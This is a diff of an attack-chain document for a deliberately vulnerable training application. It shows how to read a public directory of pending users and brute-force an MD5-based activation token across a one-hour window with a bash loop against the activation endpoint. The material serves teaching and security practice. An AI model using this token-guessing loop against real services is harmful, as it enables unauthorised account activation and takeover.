

Before and after one commit to Ethanz12/Vulnerable-Application, a Markdown page: docs/ATTACK-CHAIN.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/docs/ATTACK-CHAIN.md
+++ b/docs/ATTACK-CHAIN.md
@@ -71,21 +71,36 @@ directory conveniently publishes exactly those two inputs.
        api/auth
    ```
 
-2. **Read the public directory** (no session):
+2. **Read the public directory** (no session). The directory rounds the
+   registration time to the nearest hour and exposes it as
+   `registered_hour_epoch` (not the exact second):
 
    ```bash
    $RC request api/directory/pending
    {"ok":true,"pending":[
-     {"username":"r.patel","student_id":"S-1042","registered_epoch":1791201600},
-     {"username":"e.attacker","student_id":"S-9001","registered_epoch":1791287654}, ...]}
+     {"username":"r.patel","student_id":"S-1042","registered_hour_epoch":1791201600,
+      "note":"Registration time approximate (within 1 hour window)"},
+     {"username":"e.attacker","student_id":"S-9001","registered_hour_epoch":1791287600,
+      "note":"Registration time approximate (within 1 hour window)"}, ...]}
    ```
 
-3. **Compute the token.** The formula is documented on the activation page
-   itself (over-share by design):
+3. **Brute-force the exact epoch and compute the token.** The actual
+   registration time is somewhere in the 3,600-second window
+   `[registered_hour_epoch, registered_hour_epoch + 3600)`. The formula is
+   documented on the activation page itself (over-share by design):
 
    ```bash
-   printf 'ACTIVATE:%s:%s' S-9001 1791287654 | md5sum | cut -c1-8
-   # e.g. 3f7a1c9d
+   # Brute-force the exact epoch within the 1-hour window
+   BASE=1791287600   # registered_hour_epoch from the directory
+   for epoch in $(seq $BASE $((BASE + 3599))); do
+     token=$(printf 'ACTIVATE:%s:%s' S-9001 "$epoch" | md5sum | cut -c1-8)
+     result=$($RC request "api/activate?token=$token" 2>/dev/null)
+     if echo "$result" | grep -q '"ok":true'; then
+       echo "FOUND! epoch=$epoch token=$token"
+       break
+     fi
+   done
+   # FOUND! epoch=1791287654 token=3f7a1c9d
    ```
 
    (`ActivateServlet` GET `?token=...` confirms which account it resolves.)
````
Also changed, not shown: other parts of docs/ATTACK-CHAIN.md (+17 -13 lines).
